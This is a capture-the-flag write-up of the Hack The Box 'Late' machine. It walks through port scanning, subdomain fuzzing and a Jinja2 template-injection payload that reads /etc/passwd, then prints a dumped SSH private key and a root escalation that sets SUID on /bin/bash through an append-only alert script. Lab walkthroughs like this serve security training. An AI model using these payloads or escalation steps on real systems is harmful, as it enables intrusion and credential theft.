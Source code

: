 ![Late.PNG](/assets/Machines/Easy/Late/Late.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.156
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.156
```
**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

3. Visit webpage

![web.PNG](/assets/Machines/Easy/Late/web.PNG)

* This webpage don't have important information.

3. Use wfuzz to search subdomains
* Before this do virtual hosting with webpage 
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Late]
└─| wfuzz -c -t 200 --hc=404 --hh=9461 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.late.htb" http://late.htb/
```

**Output**
```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload 
=====================================================================

000000002:   200        63 L     152 W      2187 Ch     "images" 
```

* Put this subdomain in `/etc/hosts`

![hosts.PNG](/assets/Machines/Easy/Late/hosts.PNG)

* Change the underlined content with red.


4. Visit new webpage

![subdomain.PNG](/assets/Machines/Easy/Late/subdomain.PNG)

* This webpage use **Flask** and I think use Jinja.

5. Test utility of web page

![screenshot.PNG](/assets/Machines/Easy/Late/screenshot.PNG)

6. Upload file and watch the result
```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─| cat result.txt                   
<p>Hi, this is a message
</p> 
```

7. Test if webpage is vulnerable to **SSTI** with this `{{7*7}}`
```bash
┌──(root㉿kali)-[/home/kali/Downloads]
└─| cat results.txt 
<p>49
</p>
```
* Webpage is vulnerable to SSTI, search in [Jinja-SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) how execute a command.

8. Execute a command to show users in system

* Command: `{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}`

**Result**
```bash
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
```

9. Try to obtain a id_rsa of user **svc_acc**
```bash
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
</p> 
```

10. Login with ssh with id_rsa, remember put permission **600** in this file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Late]
└─| ssh svc_acc@10.10.11.156 -i id_rsa 
svc_acc@late:~$ whoami
svc_acc
```

11. Cat **user flag**
```bash
svc_acc@late:~$ cat user.txt 
c4ebb53ce3815b937283c58ee0c61600
```

---
---
---

### Privileges Escalation 💀


1. Find files of current user
```bash
svc_acc@late:/var/www/html$ find / -user svc_acc 2>/dev/null | grep -vE "proc|sys|home|run"
```

**Output**
```bash
/usr/local/sbin
/usr/local/sbin/ssh-alert.sh
/dev/pts/0
```

2. Look files, permissions and flags
* **Content**
```bash
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

* **Permissions**
```bash
-rwxr-xr-x 1 svc_acc svc_acc 433 Dec  7 16:45 /usr/local/sbin/ssh-alert.sh
```

* **Flags**
```bash
svc_acc@late:/var/www/html$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

* With `flag a` we don't add content with text editor, in this case we can add content in file only in `mode append`. To do that we use `>>`


3. If you use pspy in target machines you lokk the user run file `ssh-alert.sh` is **root** (UID=0)
```bash
2022/12/07 18:24:11 CMD: UID=0    PID=4006   | /bin/bash /usr/local/sbin/ssh-alert.sh
```

4. Add `chmod u+s /bin/bash` in file `/usr/local/sbin/ssh-alert.sh` and log again for run **ssh-alert.sh** and change permission in `/bin/bash`
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Late]
└─| ssh svc_acc@10.10.11.156 -i id_rsa 
```

```bash
svc_acc@late:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

5. Spawn a bash with privileges
```bash
svc_acc@late:/tmp$ bash -p
bash-4.4# whoami
root
```

6. Cat **root flag**
```bash
bash-4.4# cat /root/root.txt 
eb07476d052fcfa7813e4c3e2907ed9a
```